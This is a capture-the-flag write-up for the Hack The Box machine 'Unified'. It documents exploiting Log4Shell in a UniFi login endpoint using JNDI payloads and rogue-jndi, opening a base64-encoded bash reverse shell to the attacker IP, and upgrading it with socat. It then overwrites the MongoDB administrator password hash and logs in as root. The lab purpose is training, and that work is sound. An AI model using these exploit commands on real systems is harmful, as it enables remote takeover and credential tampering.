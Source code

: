 # HACKTHEBOX - Unified

```bash
export IP=10.129.72.187
```

## Enumeration
```bash
sudo nmap -sV -sC -v -oN nmap.txt $IP
```

**nmap result**:
```
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
6789/tcp open  ibm-db2-admin?
8080/tcp open  http-proxy
8443/tcp open  ssl/nagios-nsca Nagios NSCA
| http-title: UniFi Network
|_Requested resource was /manage/account/login?redirect=%2Fmanage
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
| Issuer: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
.....
1 service unrecognized despite returning data....

rustscan: 8880/tcp open  cddbp-alt?
```

**Port 8443**: `Unifi 6.4.54`

`A vulnerable` third-party library used in `UniFi Network Version 6.5.53 and earlier` `(Log4J CVE-2021-44228)` allows a malicious actor to control the application. 

This vulnerability is `fixed` in UniFi Network Version 6.5.54 and later.

Ok Log4j, Unifi network vulnerability: https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi

Automate log4j vulnerabilities in unifi software: https://github.com/puzzlepeaches/Log4jUnifi 

**Summary**:
The `Unifi Network Application` is used to `manage Ubiquiti software and hardware solutions`. This software suite can be installed natively on Linux and Windows or within a Linux Docker container. 

The application is most commonly hosted on `port 8443` via HTTPS. Navigating to the webpage for the application in a web browser will look something like the following:

!(unifi login version)[Log4Unifi_1_Login_Version.png]

Versions prior to 6.5.54 are vulnerable to remote code execution. Once you’ve identified a vulnerable instance, it’s simple to walk through exploitation.

## Exploitation
The vulnerability is in the `rememberme` (or in some versions the username) value issued in the login request shown below:
```
https://10.129.72.187:8443/api/login
Host: ....

{"username":"asdf","password":"asdfas","remember":"<PAYLOAD>","strict":true}
```

`Test for the vulnerability` in localhost, or you can test by trigger a dns query

```bash
nc -nlvp 8989
curl 'https://10.129.72.187:8443/api/login' --data-raw '{"username":"a","password":"a","remember":"${jndi:ldap://10.10.14.52:8989}","strict":true}' --compressed --insecure
# got connection --> vulnerable!!
```

First, you need to clone and build the tool, `rogue-jndi`(The project *contains LDAP & HTTP servers* for exploiting insecure-by-default Java JNDI API) from the GitHub:
```bash
# One-liner
git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && sudo apt install maven && mvn package
```

Once the Jar is compiled, you’ll have to craft a command to deliver the reverse shell. 
```bash
echo 'bash -c bash -i >&/dev/tcp/10.10.14.52/4444 0>&1' | base64
# YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuNTIvNDQ0NCAwPiYxCg==
```

With that Base64 output, build your command in `rogue-jndi`, then start your `rogue-jndi LDAP server` up.
```bash
java -jar rogue-jndi/target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuNTIvNDQ0NCAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "10.10.14.52"
```

To get a reverse shell, issue this cURL command:
```bash
curl 'https://10.129.72.187:8443/api/login' --data-raw '{"username":"a","password":"a","remember":"${jndi:ldap://10.10.14.52:1389/o=tomcat}","strict":true}' --compressed --insecure
```

Start up a netcat listener on the port you specified while building your shell and issue the cURL command. If you did everything correctly, you should see UniFi Network Application grab the payload from rogue-jndi and then get a callback: (picture here!!)


We got reverse shell!!

What tool do we use to intercept the traffic, indicating the attack was successful: `tcpdump`

**user flag**: `HTB{6ced1a6a89e666c0620cdb10262XXXXX}`

## Post Exploitation
```bash
for PORT in {1..1000}; do timeout 1s bash -c "</dev/tcp/localhost/$PORT" > /dev/null; done
```
nothing, just for bash!!

Upgrade to interactive shell
```bash
which python # no!
which python3 # no!

# Using socat
# Host socat standalone binaries and from remote machine `curl -o`
# Kali Machine
socat file:`tty`,raw,echo=0 tcp-listen:4445
# Remote Machine
./socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.52:4445
```

What port do we need to inspect intercepted traffic for: `LDAP port: 389` (our server LDAP port)

What port is the MongoDB service running on: `27117`
```bash
ps aux | grep mongo
# unifi         67  0.4  4.2 1099648 85800 ?       Sl   11:49   0:44 bin/mongod --dbpath /usr/lib/unifi/data/db --port 27117 --unixSocketPrefix /usr/lib/unifi/run --logRotate reopen --logappend --logpath /usr/lib/unifi/logs/mongod.log --pidfilepath /usr/lib/unifi/run/mongod.pid --bind_ip 127.0.0.1
# unifi      20857  0.0  0.0  11468  1112 pts/0    S+   14:39   0:00 grep mongo
```

Connect to MongoDB:
```bash
locate mongo # /usr/bin/mongo
/usr/bin/mongo --port 27117
```

MongoDB Command:
```bash
dbs; # default database --> ace
show databases
use ace
show collections # admin
db.admin.find() # enumerate users
```

What is the default database name for UniFi applications: `ace`

```json
{ "_id" : ObjectId("61ce278f46e0fb0012d47ee4"), "name" : "administrator", "email" : "administrator@unified.htb", "x_shadow" : "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.", ......}
```

What is the function to add data to the database in MongoDB: `db.admin.insert()`

What is the function we use to update users within the database in MongoDB: `db.admin.update()`

**hints**: It's not crackable
https://community.spiceworks.com/topic/2175763-hash-tool-to-reset-ubiquiti-unifi-controller-admin-password
```bash
# http://sha512crypt.pw/
# hash: hello -> $6$CU3a0DfD5u.QeV12$5NWCSeU4SsCxabV9bSNotwhoacGVqCfT1Lf9KVFIyc8XvW.N4OE9Hl.j1NGxjPeyHEL1/E8lbD5XNHBwFjrSn.

# overwrite administrator password
db.admin.update( { name: "administrator" }, {$set: { x_shadow: "$6$CU3a0DfD5u.QeV12$5NWCSeU4SsCxabV9bSNotwhoacGVqCfT1Lf9KVFIyc8XvW.N4OE9Hl.j1NGxjPeyHEL1/E8lbD5XNHBwFjrSn." } } );
# WriteResult({ "nMatched" : 1, "nUpserted" : 0, "nModified" : 1 })
```

Back to the Controller Login Pannel, log in with: `administrator:hello`

!(ssh root password)[ssh-password.png]

**SSH root password**: `NotACrackablePassword4U2022`
```bash
ssh root@$IP
# NotACrackablePassword4U2022
```

**root flag**: `HTB{e50bc93c75b634e4b272d2f771c33681}`